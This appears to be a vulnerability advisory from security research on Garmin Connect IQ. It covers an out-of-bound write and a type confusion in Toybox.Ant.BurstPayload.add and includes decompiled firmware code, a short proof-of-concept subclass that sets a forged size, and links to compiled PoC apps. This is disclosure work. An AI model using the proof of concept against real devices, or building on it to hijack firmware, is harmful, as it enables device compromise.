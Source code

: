 # Relative Out-of-bound Write and Type Confusion in `Toybox.Ant.BurstPayload`
The `BurstPayload` object supports the `add` method to add a message to its internal queue. Before adding a message, it checks that its `size` attribute is within a limit. If it is above the limit, it raises an Out of Memory exception.

However, the `add` method fails to check if the size is negative. It is possible to create a class inheriting from `BurtPayload` with a negative `size` attribute. When adding messages, it will write outside of the intended location the 8 bytes of the message to add.

Even if the method checks if the size is negative, it can still be abused to write outside of the intended buffer. Indeed, the `size` and `burstDataBlob` attributes are not correlated. By inheriting from `BurstPayload`, it is possible to override `burstDataBlob` with an object whose size is smaller than the `size` attribute, leading to out-of-bound write.

Furthermore, overriding the `burstDataBlob` attribute with another object results in a type confusion. The `add` method will attempt to write at offset `0x0c` and `0x10` of the object, regardless of its type. By specifying an array, it is possible to override its first two objects in memory.

This can be leveraged to corrupt the memory of the device, and most likely be abused to hijack the execution of the firmware.

```c
e_tvm_error native:Toybox.Ant.BurstPayload.add(s_tvm_ctx *ctx,uint nb_args)
{
// [...]
  // Anvil: Get the `size` field as a 4-byte integer
  eVar1 = tvm_get_field_size_as_int(ctx,object,&field_size);
  uVar2 = (uint)eVar1;
  if (uVar2 == 0) {
    // Anvil: Check that we're not exceeding 0x2000 messages but does not check that it is positive
    if (0x1fff < (int)field_size) {
      return OUT_OF_MEMORY_ERROR;
    }
    // Anvil: Get the 8 bytes of data to add to the message
    eVar1 = tvm_message_copy_payload_data(ctx,ctx->frame_ptr + 10,payload_data);
// [...]
      // Anvil: Retrieve `burstDataBlob` attribute
      eVar1 = tvm_object_get_field_value-?(ctx,object,field_burstDataBlob,&burst_data_blob,1);
      if ((uVar2 == 0) && (uVar2 = _tvm_object_get_object_data(ctx,burst_data_blob.value,(undefined *)&blob_data), uVar2 == 0)) {
        // Anvil: Write the 8 bytes of data to the blob data, at `size` offset.
        *(undefined4 *)(blob_data + field_size + 0xc) = payload_data._0_4_;
        *(undefined4 *)(blob_data + field_size + 0x10) = payload_data._4_4_;
// [...]
```

The following proof-of-concept will attempt to write `0x44` 8 times at the relative location `+ 0xdeadbeef`:

```java
class MyBurstPayload extends Ant.BurstPayload {
    function initialize() {
        Ant.BurstPayload.initialize();
        self.size = 0xdeadbeef;
    }
}
// [...]

var burst = new MyBurstPayload();

var data = new[8];
for (var j = 0; j < 8; j++) {
	data[j] = 0x44;
}

burst.add(data);
```

The proof-of-concept applications can be found here:

* Relative out-of-bound write <https://github.com/anvilsecure/garmin-ciq-app-research/blob/main/poc/GRMN-09.prg>
* Type confusion <https://github.com/anvilsecure/garmin-ciq-app-research/blob/main/poc/GRMN-11.prg>